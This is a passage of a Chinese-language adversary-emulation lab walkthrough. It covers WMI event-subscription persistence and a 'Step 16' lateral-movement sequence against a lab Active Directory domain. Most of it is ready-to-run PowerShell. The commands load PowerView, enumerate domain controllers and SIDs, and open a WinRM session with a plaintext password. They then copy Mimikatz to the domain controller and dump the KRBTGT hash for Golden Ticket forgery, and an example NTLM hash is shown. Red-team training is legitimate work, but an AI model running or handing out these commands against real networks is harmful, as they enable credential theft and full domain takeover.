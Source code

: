 ```javascript=
	$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

	$FilterToConsumerArgs = @{
		Filter = [Ref] $Filter
		Consumer = [Ref] $Consumer
	}
	$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
}

```


### Step 16 - 横向运动
攻擊者利用 Windows API 枚舉環境中的域控制器和域的安全標識符，然後使用以前轉儲的憑據建立到域控制器的遠程 PowerShell 會話。通過此連接，攻擊者會將 Mimikatz 二進制文件複製到域控制器，並轉儲 KRBTGT 帳戶的哈希。

#### 16.A 切换到低權限
載入 PowerView 模組：
```powershell=
PS 1> loadmoduleforce /home/kali/payloads/day2/powerview.ps1

PS 1>get-netdomaincontroller
```

#### 16.B 獲取用戶的 SID：

PS 1> loadmoduleforce /home/kali/payloads/day2/stepSixteen_SID.ps1

PS 1>siduser

#### 16.C 切換到新的高許可權會話中


```powershell=

#載入 Invoke-WinRMSession 模組：
PS 2>loadmoduleforce /home/kali/payloads/day2/Invoke-WinRMSession.ps1

#建立 WinRM 會話：
PS 2> invoke-winrmsession -Username "apt.local\john" -Password "Passw0rd!" -IPAddress 10.0.0.100

#執行命令並記錄會話 ID：
PS 2>Invoke-Command -Session $oejtw -scriptblock {Get-Process} | out-string
```
#### 16.D 這一步驟用於將 Mimikatz 複製到域控制器並執行以獲取 KRBTGT 帳戶的哈希，這是一個關鍵步驟，因為 KRBTGT 的哈希可以用來生成黃金票據（Golden Ticket），進而完全控制域內的所有系統。


```powershell=
#複製攻擊工具到域控制器：
PS 2> Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $oejtw
#使用 Mimikatz 轉儲 KRBTGT 帳戶的哈希：
PS 2> Invoke-Command -Session $oejtw -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string
#移除 PowerShell 會話：
PS 2> Get-PSSession | Remove-PSSession
#保存 NTLM hash，例子
NTLM : 5fae7c899798b24d56c697f86e8cc7d6
```
